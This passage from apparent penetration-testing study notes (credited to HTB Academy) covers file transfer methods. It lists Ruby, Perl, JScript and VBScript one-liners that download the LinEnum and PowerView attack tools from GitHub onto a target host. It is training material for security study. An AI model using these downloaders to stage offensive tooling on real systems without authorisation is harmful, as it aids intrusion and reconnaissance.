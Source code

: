 > Note: The URL can be used as a filename with the @file function if the fopen wrappers have been enabled.

### Ruby

- `ruby -e 'require "net/http"; File.write("LinEnum.sh", Net::HTTP.get(URI.parse("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh")))'` download a file

### Perl

- `perl -e 'use LWP::Simple; getstore("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh", "LinEnum.sh");'` Download a file

### Javascript

```js
var WinHttpReq = new ActiveXObject("WinHttp.WinHttpRequest.5.1");
WinHttpReq.Open("GET", WScript.Arguments(0), /*async=*/false);
WinHttpReq.Send();
BinStream = new ActiveXObject("ADODB.Stream");
BinStream.Type = 1;
BinStream.Open();
BinStream.Write(WinHttpReq.ResponseBody);
BinStream.SaveToFile(WScript.Arguments(1));
```

- On a win cmd `cscript.exe /nologo wget.js https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Recon/PowerView.ps1 PowerView.ps1` Download a File Using JavaScript and cscript.exe

> Source: HTB Academy using this [post](https://superuser.com/questions/25538/how-to-download-files-from-command-line-in-windows-like-wget-or-curl/373068)

### VBScript

```vbscript
dim xHttp: Set xHttp = createobject("Microsoft.XMLHTTP")
dim bStrm: Set bStrm = createobject("Adodb.Stream")
xHttp.Open "GET", WScript.Arguments.Item(0), False
xHttp.Send

with bStrm
    .type = 1
    .open
    .write xHttp.responseBody
    .savetofile WScript.Arguments.Item(1), 2
end with
```

- `cscript.exe /nologo wget.vbs https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Recon/PowerView.ps1 PowerView2.ps1` Download a File Using VBScript and cscript.exe

> Source HTB Academy using this [thread](https://stackoverflow.com/questions/2973136/download-a-file-with-vbs)

## Protected File Transfers
